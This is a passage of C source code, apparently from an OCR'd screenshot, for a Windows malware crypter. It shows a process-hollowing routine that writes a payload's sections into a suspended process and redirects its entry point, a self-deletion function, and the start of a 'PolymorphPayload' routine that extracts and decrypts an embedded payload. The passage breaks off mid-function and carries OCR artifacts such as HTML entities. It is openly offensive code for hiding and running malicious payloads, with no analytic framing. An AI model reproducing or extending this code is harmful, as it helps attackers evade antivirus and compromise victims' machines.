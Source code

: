 ```
    // write each section into memory
    for (int i = 0; i &lt; pinh-&gt;FileHeader.NumberOfSections; i++) `{`
        // calculate section header of each section
        pish = (PIMAGE_SECTION_HEADER)((DWORD)fs-&gt;pBuffer + pidh-&gt;e_lfanew + sizeof (IMAGE_NT_HEADERS) + sizeof (IMAGE_SECTION_HEADER) * i);
        // write section data into memory
        WriteProcessMemory(pi.hProcess, (PVOID)(pinh-&gt;OptionalHeader.ImageBase + pish-&gt;VirtualAddress), (LPVOID)((DWORD)fs-&gt;pBuffer + pish-&gt;PointerToRawData), pish-&gt;SizeOfRawData, NULL);
    `}`
    // set starting address at virtual address: address of entry point
    context.Eax = pinh-&gt;OptionalHeader.ImageBase + pinh-&gt;OptionalHeader.AddressOfEntryPoint;
    if (SetThreadContext(pi.hThread, &amp;context) == FALSE) `{`
        Debug("Set thread context error: %lun", GetLastError());
        return FALSE;
    `}`
    // resume our suspended processes
    if (ResumeThread(pi.hThread) == -1) `{`
        Debug("Resume thread error: %lun", GetLastError());
        return FALSE;
    `}`
    WaitForSingleObject(pi.hProcess, INFINITE);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
    return TRUE;
`}`
/*
VOID RunFromMemory(FileStruct *fs) `{`
    Debug("%p", fs-&gt;pBuffer);
    HMEMORYMODULE hModule = MemoryLoadLibrary(fs-&gt;pBuffer, fs-&gt;dwFileSize);
    if (hModule == NULL) `{`
        Debug("Memory load library error: %lun", GetLastError());
        return;
    `}`
    int nSuccess = MemoryCallEntryPoint(hModule);
    if (nSuccess &lt; 0) `{`
        Debug("Memory call entry point error: %dn", nSuccess);
    `}`
    MemoryFreeLibrary(hModule);
`}`
*/
VOID SelfDelete(LPCSTR szFileName) `{`
    PROCESS_INFORMATION pi = `{` 0 `}`;
    STARTUPINFO si = `{` 0 `}`;
    si.cb = sizeof(si);
    //CreateFile("old.exe", 0, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_FLAG_DELETE_ON_CLOSE, NULL);
    CHAR szCmdLine[MAX_PATH];
    sprintf(szCmdLine, "%s delete", szFileName);
    if (CreateProcess(NULL, szCmdLine, NULL, NULL, FALSE, 0, NULL, NULL, &amp;si, &amp;pi) == FALSE) `{`
        Debug("Create process error: %lun", GetLastError());
    `}`
`}`
BOOL PolymorphPayload(LPCSTR szFileName) `{`
    MoveFile(szFileName, "old.exe");
    CopyFile("old.exe", szFileName, FALSE);
    // re-extract resources
    FileStruct *fs = ExtractPayload();
    if (fs == NULL) return FALSE;
    // decrypt buffer
    if (DecryptPayload(fs) == FALSE) `{`
        Debug("DecryptPayload buffer error: %lun", GetLastError());
```